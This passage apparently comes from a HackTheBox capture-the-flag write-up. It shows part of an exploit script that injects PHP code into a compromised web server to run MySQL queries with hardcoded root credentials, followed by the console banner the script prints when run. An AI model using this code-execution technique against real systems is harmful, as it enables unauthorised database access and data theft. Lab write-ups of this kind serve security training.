 ```python
        # Escape input
        sql = sql.replace('"', '\\"')
        
        # PHP code to connect and run sql-statemente
        code = f"""
        $conn = new mysqli("localhost", "root", "changethis", "ecom");
        if ($conn->connect_error) {{
            die("Connection failed: " . $conn->connect_error);
        }}
        $result = $conn->query("{sql}");

        if ($result->num_rows > 0) {{
            // output data of each row
            while($row = $result->fetch_assoc()) {{
                print_r($row);
            }}
        }}
        $conn->close();
        """
        print(exploit(session, code))
```
{% endraw %}

We can now start to enumerate MySQL.

```bash
root@darkness:~# python3 exploit.py
   _____                                                 _                 _             _____  _            _  _ 
  / ____|                                               (_)               | |           / ____|| |          | || |
 | |      ___   _ __ ___   _ __   _ __  ___   _ __ ___   _  ___   ___   __| |  ______  | (___  | |__    ___ | || |
 | |     / _ \ | '_ ` _ \ | '_ \ | '__|/ _ \ | '_ ` _ \ | |/ __| / _ \ / _` | |______|  \___ \ | '_ \  / _ \| || |
 | |____| (_) || | | | | || |_) || |  | (_) || | | | | || |\__ \|  __/| (_| |           ____) || | | ||  __/| || |
  \_____|\___/ |_| |_| |_|| .__/ |_|   \___/ |_| |_| |_||_||___/ \___| \__,_|          |_____/ |_| |_| \___||_||_|
                          | |                                                                                     
                          |_|                                                                                     
  ____            _____  _             ___           __          ____                                             
 |  _ \          / ____|| |           / _ \         / /         / __ \                                            
 | |_) | _   _  | |     | |__   _ __ | | | |__  __ / /_    ___ | |  | | ___                                       
 |  _ < | | | | | |     | '_ \ | '__|| | | |\ \/ /| '_ \  / _ \| |  | |/ __|                                      
 | |_) || |_| | | |____ | | | || |   | |_| | >  < | (_) ||  __/| |__| |\__ \                                      
 |____/  \__, |  \_____||_| |_||_|    \___/ /_/\_\ \___/  \___| \____/ |___/                                      
          __/ |                                                                                                   
         |___/                                                                                                    

 Twitter:    https://twitter.com/Chr0x6eOs
 Github:     https://github.com/Chr0x6eOs
 HackTheBox: https://www.hackthebox.eu/home/users/profile/134448
                          
```